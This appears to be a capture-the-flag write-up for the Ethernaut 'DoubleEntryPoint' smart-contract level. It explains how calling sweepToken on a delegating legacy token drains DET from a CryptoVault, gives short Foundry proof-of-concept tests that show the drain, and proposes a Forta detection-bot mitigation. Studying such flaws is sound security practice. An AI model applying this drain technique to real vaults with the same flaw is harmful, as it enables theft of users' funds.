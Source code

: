 # Crypto Vault

## Invariants

1. `SweepTokens` allows tu recover stuck tokens
2. `Swaps ERC20` for `DET` if delegate.

## Target

- Protect `CryptoVault` from being drained.

## Potential Vulnerabilities

1. <del>Malicious `DelegateERC20` can `swap` and `sweep` draining ilegitimately swept tokens previoulsy.</del>
2. <del>users holding LGT might swap comulatively</del>

## Main Vulnerability

1. Anyone can damage `DoubleEntryPoint` if delegate:
   1. true: drain `DET`
   2. false: drain `LGT`

No other ERC20 except for `LGT` delegates are allowed, meaning that these tokens are only capable for recovering if `stuck`, and `swaps` are supposed to only allow `LGT` and knowing that `DET` is not swappable,`swaps` cannot occur on the protocol.

# 1 Vulnerability

**Proof of concept:**

Anyone can drain to Vault's recipient address:

  <details>

   <summary> 1:Draining DET</summary>

```javascript
  function testDrainsDETWithDelegate() public {
      //Already delegated at setUp
      vault.sweepToken(lgt);

      uint256 vaultBalance = det.balanceOf(address(vault));

      assertEq(vaultBalance, 0);
  }
```

</details>

<details>
   <summary> 2: Draining LGT</summary>

```javascript
    function testDraisLGTwithoutDelegatge() public {
       //Remove Delegation
       vm.prank(owner);
       lgt.delegateToNewContract(DoubleEntryPoint(address(0)));

       vault.sweepToken(lgt);

       uint256 vaultBalance = lgt.balanceOf(address(vault));

       assertEq(vaultBalance, 0);
    }
```

</details>

**Mitigation:**
Implement and register a bot so that once swaps over DET are attempt trigger an alert on Forta so as to revert Tx.

Assuming that `Legacy Token` is set `DoubleEntryPoint` as delegate.

```javascript
   //BOT
   contract DetectionBot is IDetectionBot {
      IForta forta;
      constructor(IForta _forta) {
         forta = _forta;
      }
      function handleTransaction(
         address user,
         bytes calldata /* msgData */
      ) external {
         forta.raiseAlert(user);
      }
   }
   //TEST
    function testPreventsSwapsOverDET() public {
        //Already delegated at setUp
        DetectionBot bot = new DetectionBot(forta);
        vm.prank(player);
        forta.setDetectionBot(address(bot));

        vm.expectRevert();
        vault.sweepToken(lgt);
    }

```
